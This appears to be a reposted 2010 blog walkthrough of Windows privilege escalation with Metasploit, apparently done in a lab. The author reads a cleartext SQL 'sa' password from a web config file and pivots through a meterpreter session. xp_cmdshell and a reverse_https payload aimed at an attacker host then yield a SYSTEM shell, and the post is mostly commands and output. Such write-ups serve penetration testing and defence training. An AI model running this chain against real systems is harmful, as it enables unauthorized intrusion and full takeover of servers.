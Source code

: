 <!-- TITLE: Mssqlmeterpreter -->
<!-- SUBTITLE: A quick summary of Mssqlmeterpreter -->

# Header
Exploit Privilege Escalation
DateFriday, May 7, 2010 at 10:05AM
The other day Chris Gates posted an excellent blog post about the WebDAV hotness that Chris Sullo (author of Nikto) cooked up (DAVTest) which Ryan Linn popped out a Metasploit module for.


Anyways, the story left off being a very limited user called "Network Service". This user has Read and Execute, but no Write access, and a very limited field of view to boot.

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE

Lets look around a bit..

meterpreter > pwd
C:\Inetpub\wwwroot
meterpreter > ls
Listing: C:\Inetpub\wwwroot
===========================
Mode Size Type Last modified Name
-
40777/rwxrwxrwx 0 dir Fri May 07 09:32:19 -0400 2010 .
40777/rwxrwxrwx 0 dir Mon May 03 12:51:48 -0400 2010 ..
40777/rwxrwxrwx 0 dir Mon May 03 12:12:57 -0400 2010 admin
100666/rw-rw-rw- 1587 fil Sat Dec 08 23:01:24 -0500 2001 default.asp
100666/rw-rw-rw- 1465 fil Sat Dec 08 23:01:24 -0500 2001 default.css
100666/rw-rw-rw- 3295 fil Thu Jan 03 12:40:48 -0500 2002 forgotpass.asp
40777/rwxrwxrwx 0 dir Mon May 03 12:12:57 -0400 2010 images
40777/rwxrwxrwx 0 dir Mon May 03 12:12:57 -0400 2010 language
100666/rw-rw-rw- 1802 fil Thu Jan 24 12:10:04 -0500 2002 logoff.asp
100666/rw-rw-rw- 7785 fil Sat Jun 15 19:49:20 -0400 2002 logon.asp
100666/rw-rw-rw- 1801 fil Mon May 03 12:42:45 -0400 2010 settings.asp
100666/rw-rw-rw- 21137 fil Wed Aug 28 11:31:42 -0400 2002 setup.asp

Sweet! a "settings.asp"

meterpreter > cat settings.asp
<SCRIPT LANGUAGE = "VBScript">
<(editorial snip)>
SQLUser = "sa"
SQLPass = "SuperDuper#@rdP@$$w0rd2012"
<(/editorial snip)>
</SCRIPT>

SA with clear text password. Good luck bruteforcing that one. But they block 1433 directly to the box so direct SQL queries are out. No problem.
Pivoting to the rescue:

meterpreter >
Background session 1? [y/N]
msf exploit(handler) > route add 192.168.56.0 255.255.255.0 1
msf exploit(handler) > route print
Active Routing Table
====================
Subnet Netmask Gateway
— - -
192.168.56.0 255.255.255.0 Session 1

Then we use mssql_login to check to see if our creds are right (set BLANK_PASSWORDS to false since we already know the password and we aren't trying to brute force it). This will be routed through our meterpreter session that has NETWORK SERVICE permissions.

msf exploit(handler) > use scanner/mssql/mssql_login
msf auxiliary(mssql_login) > set BLANK_PASSWORDS false
BLANK_PASSWORDS => false
msf auxiliary(mssql_login) > set PASSWORD SuperDuper#@rdP@$$w0rd2012


PASSWORD => SuperDuper#@rdP@$$w0rd2012


msf auxiliary(mssql_login) > set RHOSTS 192.168.56.3
RHOSTS => 192.168.56.3
msf auxiliary(mssql_login) > run
[*] 192.168.56.3:1433 - MSSQL - Trying username:'sa' with password:'SuperDuper#@rdP@$$w0rd2012'
[+] 192.168.56.3:1433 - MSSQL - successful login 'sa' : 'SuperDuper#@rdP@$$w0rd2012'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

Cool. Now some enumeration and check to see if xp_cmdshell is enabled (it outputs a lot of info so I cut it down to just the pieces we are looking for):

msf exploit(mssql_login) > use admin/mssql/mssql_enum
msf auxiliary(mssql_enum) > set PASSWORD SuperDuper#@rdP@$$w0rd2012
PASSWORD => SuperDuper#@rdP@$$w0rd2012
smsf auxiliary(mssql_enum) > set RHOST 192.168.56.3
RHOST => 192.168.56.3
msf auxiliary(mssql_enum) > run
[*] Running MS SQL Server Enumeration...
[*] Version:
[*] Microsoft SQL Server 2000 - 8.00.194 (Intel X86)
[*] Aug 6 2000 00:57:48
[*] Copyright (c) 1988-2000 Microsoft Corporation
[*] Enterprise Edition on Windows NT 5.2 (Build 3790: Service Pack 2)
<(editorial snip)>
[*] xp_cmdshell is Enabled
<(/editorial snip)>
[*] Instances found on this server:
[*] MSSQLSERVER
[*] Default Server Instance SQL Server Service is running under the privilege of:
[*] LocalSystem
[*] Auxiliary module execution completed

XP_CMDSHELL and the server runs as local system. Looking good, payload time.

msf auxiliary(mssql_enum) > use windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf exploit(mssql_payload) > set LHOST 10.10.10.59
LHOST => 10.10.10.59
msf exploit(mssql_payload) > set RHOST 192.168.56.3
RHOST => 192.168.56.3
msf exploit(mssql_payload) > set LPORT 443
LPORT => 443
msf exploit(mssql_payload) > set PASSWORD SuperDuper#@rdP@$$w0rd2012


PASSWORD => SuperDuper#@rdP@$$w0rd2012


msf exploit(mssql_payload) > exploit
[*] HTTPS listener started on https://10.10.10.59:443/
[*] Command Stager progress - 2.78% done (1494/53675 bytes)
[*] Command Stager progress - 5.57% done (2988/53675 bytes)
[*] Command Stager progress - 8.35% done (4482/53675 bytes)
<(editorial snip)>
[*] Command Stager progress - 94.64% done (50796/53675 bytes)
[*] Command Stager progress - 97.32% done (52235/53675 bytes)
[*] 192.168.56.3:1061 Request received for /AvlbV...
[*] 192.168.56.3:1061 Staging connection for target vlbV received...
[*] Patching Target ID vlbV into DLL
[*] 192.168.56.3:1062 Request received for /BvlbV...
[*] 192.168.56.3:1062 Stage connection for target vlbV received...
[*] Meterpreter session 2 opened (10.10.10.59:443 -> 192.168.56.3:1062) at Thu May 06 22:03:50 -0400 2010
[*] Exploit completed, but no session was created.
msf exploit(mssql_payload) > sessions -i 2
[*] Starting interaction with 2...
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

Game over..
Note: Routing only sends the module(be it exploit or aux) through the session. Once the payload runs (for exploit modules), it's is calling straight back to the LHOST (Attacker box), not through the session. So, in this example you can now exit session 1 (NETWORK SERVICE) as it's not really needed any more.
